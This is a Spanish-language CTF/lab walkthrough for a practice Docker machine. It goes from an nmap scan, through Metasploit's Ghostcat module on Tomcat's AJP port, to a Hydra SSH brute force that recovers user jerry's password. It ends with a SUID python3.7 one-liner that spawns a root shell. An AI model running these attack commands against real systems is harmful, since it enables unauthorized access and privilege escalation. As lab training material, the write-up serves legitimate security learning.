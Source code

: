 ```yaml
---
Maquina: library
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - linux
  - escala_privs
  - ssh
  - web
  - apache_jserv
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241106085442.png]]

Como vemos que tiene el puerto 8080 abierto vamos a realizar una exploración web un poco precoz, a ver que logramos ver.

![[Pasted image 20241106085610.png]]

Aparece un apache tomcat 9.0.30 así que vamos a analizar subdirectorios y revisar las vulnes que pueda tener esta versión.

Por ahora he pasado dirb, gobuster y analizado código fuente (página principal) y explorado a ver si tenía posibles vulnes y nada. Así que vamos a explorar otro puerto.

Vamos a probar con el puerto 8009 que pertenece al Apache JServ, para ello vamos a utilizar la consola de metasploit y el módulo auxiliary/scanner/http/tomcat_ghostcat, este puede confirmar si tenemos acceso de lectura o incluso ejecución de código.

Los comandos ejecutados serían algo así:

```bash
msfconsole #iniciamos la consola de metasploit
search tomcat_ghostcat #Buscamos el modulo
use X #sustituir x por el modulo que toque
show options #Mirar las opciones del modulo y configurarlas segun gustos
run
```

Y tenemos la siguiente resolución ->

![[Pasted image 20241106093122.png]]

Si nos fijamos en el comentario, vemos como le saluda a un tal jerry. Así que ya tenemos un usuario para intentar hacer fuerza bruta en el SSH

```bash
hydra -l jerry -P ~/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 -s 5000
```

Y sorpresita ->

![[Pasted image 20241106093304.png]]

Ya tenemos el passwd de jerry -> chocolate.

![[Pasted image 20241106093357.png]]

Parece que funciona correctamente, ahora toca ver si podemos escalar privilegios ;)

Si probamos sudo -l nos dirá que no reconoce sudo... Pero podemos probar a ver que ficheros encontramos con el bit SUID y que pertenezcan a root ->

```bash
find / -perm -4000 -user root 2>/dev/null
```

![[Pasted image 20241106100242.png]]

y si probamos con python podemos ver lo siguiente ->

```bash
./python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![[Pasted image 20241106100302.png]]

Pasaremos a ser root ;)